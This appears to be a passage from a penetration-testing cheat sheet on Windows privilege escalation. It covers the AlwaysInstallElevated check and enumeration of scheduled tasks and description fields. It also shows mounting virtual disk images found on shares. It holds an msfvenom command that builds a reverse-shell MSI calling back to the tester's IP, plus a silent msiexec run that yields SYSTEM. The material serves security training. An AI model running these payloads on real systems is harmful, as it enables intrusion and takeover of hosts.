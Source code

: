 Let's enumerate this setting:
```console
PS C:\zeropio> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
PS C:\zeropio> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

We can exploit this by generating a malicious MSI:
```console
zero@pio$ msfvenom -p windows/shell_reverse_tcp lhost=<OUR IP> lport=9443 -f msi > aie.msi
```

We can upload this MSI file to our target, start a Netcat listener and execute the file:
```console
C:\zeropio> msiexec /i c:\aie.msi /quiet /qn /norestart
```

If all goes to plan, we will receive a connection back as **NT AUTHORITY\SYSTEM**.

### Scheduled Tasks 

We can use the `schtasks` command to enumerate scheduled tasks on the system:
```console
C:\zeropio>  schtasks /query /fo LIST /v
```

We can also enumerate scheduled tasks using the `Get-ScheduledTask` PowerShell cmdlet:
```console
PS C:\zeropio> Get-ScheduledTask | select TaskName,State
```

Unfortunately, we cannot list out scheduled tasks created by other users (such as admins) because they are stored in `C:\Windows\System32\Tasks`{: .filepath}, which standard users do not have read access to. 

### User/Computer Description Field

We can enumerate this quickly for local users using the `Get-LocalUser` cmdlet:
```console
PS C:\zeropio> Get-LocalUser
```

We can also enumerate the computer description field via PowerShell using the `Get-WmiObject` cmdlet with the **Win32_OperatingSystem** class:
```console
PS C:\zeropio> Get-WmiObject -Class Win32_OperatingSystem | select Description
```

### Mount VHDX/VMDK 

[Snaffler](https://github.com/SnaffCon/Snaffler) can help us finding special files inside shared folders. Three specific file types of interest are **.vhd**, **.vhdx**, and **.vmdk** files. These are Virtual Hard Disk, Virtual Hard Disk v2, and Virtual Machine Disk. We can mount them as:
```console
zero@pio$ guestmount -a <NAME>.vmdk -i --ro /mnt/vmdk
```

```console
zero@pio$ guestmount --add <NAME>.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```
